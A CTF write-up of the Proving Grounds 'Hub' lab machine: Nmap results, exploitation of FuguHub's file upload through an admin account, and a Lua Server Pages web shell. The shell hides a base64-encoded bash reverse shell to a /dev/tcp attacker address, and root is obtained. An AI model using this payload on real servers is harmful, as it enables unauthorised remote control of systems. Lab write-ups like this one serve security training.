 ```yaml
---
title: "Proving grounds Practice: Hub"
layout: post
date: 2023-08-18 06:00
categories: writeup
---
```


Proving grounds Practice - Hub CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp   open  http     nginx 1.18.0
8082/tcp open  http     Barracuda Embedded Web Server
| http-methods: 
|   Supported Methods: OPTIONS GET HEAD PROPFIND PATCH POST PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
| http-webdav-scan: 
|   Server Type: BarracudaServer.com (Posix)
|   Server Date: Fri, 18 Aug 2023 04:51:55 GMT
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|_  WebDAV type: Unknown
|_http-title: Home
|_http-favicon: Unknown favicon MD5: FDF624762222B41E2767954032B6F1FF
|_http-server-header: BarracudaServer.com (Posix)
9999/tcp open  ssl/http Barracuda Embedded Web Server
|_http-title: Home
| http-webdav-scan: 
|   Server Type: BarracudaServer.com (Posix)
```

## Web

![img](/assets/images/CTF/Proving_Grounds/Hub/fugu01.png)

Fuguhub is vulnerable to [Remote Code Execution](https://github.com/ojan2021/Fuguhub-8.1-RCE)

**Set administrative account**

![img](/assets/images/CTF/Proving_Grounds/Hub/admin01.png)

**Login to the admin account**

![img](/assets/images/CTF/Proving_Grounds/Hub/admin-login.png)

- Direct to the Web file manager.
- Click upload file and upload below script.

## Remote Code Execution Exploit

```lsp
<div style="margin-left:auto;margin-right: auto;width: 350px;">

<div id="info">
<h2>Lua Server Pages Reverse Shell</h2>
<p>Delightful, isn't it?</p>
</div>

<?lsp if request:method() == "GET" then ?>
   <?lsp os.execute("echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xODcvMTIzNCAwPiYx | base64 -d | bash") ?>
<?lsp else ?>
   You sent a <?lsp=request:method()?> request
<?lsp end ?>

</div>
```

- Change the IP address and PORT in the base64 encoded value and save file as `.lsp`. 
- Upload the file to file server and visit the uploaded file to trigger the reverse shell.

![img](/assets/images/CTF/Proving_Grounds/Hub/rce-trigger.png)

![img](/assets/images/CTF/Proving_Grounds/Hub/root.png)

Root Obtained.

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).